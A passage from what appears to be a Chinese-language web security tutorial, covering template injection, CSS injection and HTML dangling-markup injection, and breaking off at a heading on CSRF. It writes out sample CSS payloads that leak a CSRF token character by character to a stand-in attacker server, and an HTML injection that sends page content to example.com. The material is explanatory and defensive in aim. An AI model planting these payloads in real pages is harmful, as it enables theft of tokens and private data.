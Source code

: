 模板引擎在前后端都有广泛的使用，它们的插值部分一般都支持动态执行一段语句，通过精心构造可以触发代码执行，这和SQL注入的原理是很像的，包括XSS本身也都主要依靠注入来实现

### CSS注入

一般情况下，我们认为`style`标签是安全的，但是它也有泄露信息的可能，例如

```css
input[name="csrf-token"][value^="a"] {
  background: url(https://myserver.com?q=a)
}

input[name="csrf-token"][value^="b"] {
  background: url(https://myserver.com?q=b)
}

input[name="csrf-token"][value^="c"] {
  background: url(https://myserver.com?q=c)
}

...

```

另外可以利用`@import url()`，它可以动态引入css，并且可以嵌套（返回的css仍然可以用@import），这样的话我们可以等待第一个字符猜测命中后，再让服务器返回第二个字符猜测的css响应

除了这种方式之外，还有其他很tricky的方式让css命中背景图发送，例如：

```css
@font-face {
  font-family: 'f1';
  src: url(https://myserver.com?q=1);
  unicode-range: U+31;
}
```

css自定义字体中可以根据文本的字符范围`unicode-range`来请求不同的字体，这样我们可以猜测某个元素下大致的内容。
另外我们可以通过构造特定样式的字体文件，通过设置字体的尺寸让某些文字出现时出现滚动条，再设置滚动条出现时的背景图，也可以猜测文本内容。

### HTML注入

如果我们有机会在页面上注入普通的html，那么就有机会模拟页面的某一部分来达到欺骗的目的。

另外也可以利用html解析规范的容错机制来构造请求，例如：

```html
<div>
  Hello, <?php echo $_GET['q']; ?>
  <div>Your account balance is: 1337</div>
  <footer><img src="footer.png" /></footer>
</div>
```

在PHP注入点传入`<img src="http://example.com?q=`，这样账户余额都会成为图片src的一部分。（此例在chrome下已被修复）

### CSRF跨站请求伪造

